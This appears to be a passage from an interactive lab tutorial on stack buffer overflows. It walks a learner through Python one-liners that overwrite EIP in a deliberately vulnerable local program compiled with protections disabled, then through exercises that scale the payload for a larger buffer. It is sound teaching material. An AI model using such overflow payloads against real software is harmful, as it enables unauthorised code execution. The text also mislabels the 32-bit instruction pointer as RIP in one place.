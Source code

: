 # Leverage python for payload crafting 

Install python

`apt install -y python python3 python-dev python3-dev python3-pip`{{execute}}

## python exploitation:

As a reminder:
- the secretHiddenFunction address is `\xee\x92\x04\x08` in python
- The payload is `./vuln AAAAAAAAAAAAAAAABBBBCCCCDDDDEEEE` with EEEE to be replaced by the above address.

In python2 we can generate a payload with:

`python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xee\x92\x04\x08')"`{{execute}}

The 28 characters are called the offset and could be any character. The next 4 bytes are used to overwrite the EIP and must point to the function we want to execute.

Let's try the exploit:


`./vuln $(python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xee\x92\x04\x08')")`{{execute}}

Another possible syntax is:

```python
./vuln `python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xee\x92\x04\x08')"`
```

Et voila! we have successfully reached a piece of code which is never called, and we no longer have any segmentation fault. Which means that the signal handler is not a strong mitigation.

## What if the buffer size get too large?

Because our buffer size is only 16, it is quite easy to type by hand a larger sequence of character. But what if the buffer size is 2048, or 16384? even with copy-pasting it becomes tedious to crash the programme with a segmentation fault.

Let's modify the size of the buffer to 2048. We will use a command-line editor called vim (Feel free to use `nano` if you are not comfortable with `vim`). If you are stuck in vim, you can quit at any time by typing `<ESC>qa!`.

### Exercise 1: Recompile the programme with a larger buffer

1. open the source file in vim: `vim ./vuln.c`{{execute}}
2. direct jump to the buffer size 16 by typing: `/16<ENTER>`
3. change the word (cw) under the cursor with the value 2048 by typing: `cw2048`
4. save and quit with: `<ESC>ZZ` or `<ESC>wq` (write then quit)
5. Recompile: `gcc -m32 -O0 -fno-stack-protector -no-pie -z execstack  -o vuln vuln.c`{{execute}}
6. Check the symbol address of the secretHiddenFunction
7. Did the symbol address change?

## Exercise 2: generate a large payload 

1. Generate a large payload: `python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + 'E'*4 + 'F'*4)"`{{execute}}
2. Pass the payload as an argument to the ./vuln programme
3. Identify in our payload which group of 4 bytes (RIP) is overwriting the instruction pointer
4. What is the size of the OFFSET?
5. Replace RIP (the 4 bytes in our payload) with the symbol address of the secretHiddenFunction
6. Execute the exploit

Don't forget Endianess (a concept we will explore another time).

Have you been successful to get the secretPassword? if Yes, move to next step, otherwise try harder.
